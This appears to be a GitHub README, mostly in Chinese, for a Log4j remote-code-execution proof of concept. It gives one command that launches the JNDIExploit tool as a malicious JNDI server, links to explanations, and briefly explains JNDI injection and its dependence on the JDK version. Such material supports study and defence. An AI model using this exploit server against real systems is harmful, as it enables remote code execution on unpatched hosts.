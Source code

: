 # apache_log4j_poc
apache log4j poc—— base Maven

原理：[https://mp.weixin.qq.com/s/K74c1pTG6m5rKFuKaIYmPg](https://mp.weixin.qq.com/s/K74c1pTG6m5rKFuKaIYmPg)

使用[JNDIExploit](https://github.com/feihong-cs/JNDIExploit)开启jndi服务器：
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.171.1 -l 12344 -p 9999 
```
![image](https://user-images.githubusercontent.com/49781523/145537707-1885a6f1-b51e-4f8a-a14d-701669568193.png)


![image](https://user-images.githubusercontent.com/49781523/145537663-a1e1d368-d726-4a07-8453-158454ce1c45.png)


参考文章：[https://www.codenong.com/f23e29b783ff38df36c9/](https://www.codenong.com/f23e29b783ff38df36c9/)

## 总结
[JNDI注入原理及利用](https://xz.aliyun.com/t/6633#toc-7)
![在这里插入图片描述](https://img-blog.csdnimg.cn/3a4e7244ac8545279e15fef220f64d21.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAU2hhbmZlbmdsYW43,size_20,color_FFFFFF,t_70,g_se,x_16)


```
JDNI注入由于其加载动态类原理是JNDI Reference远程加载Object Factory类的特性（使用的不是RMI Class Loading,而是URLClassLoader）。
```
这个漏洞的利用跟JDK中的配置有很大关系，换句话说跟jdk版本关系很大。
只要JDK版本无漏洞，那么apache log4j的这个RCE就很难利用成功。
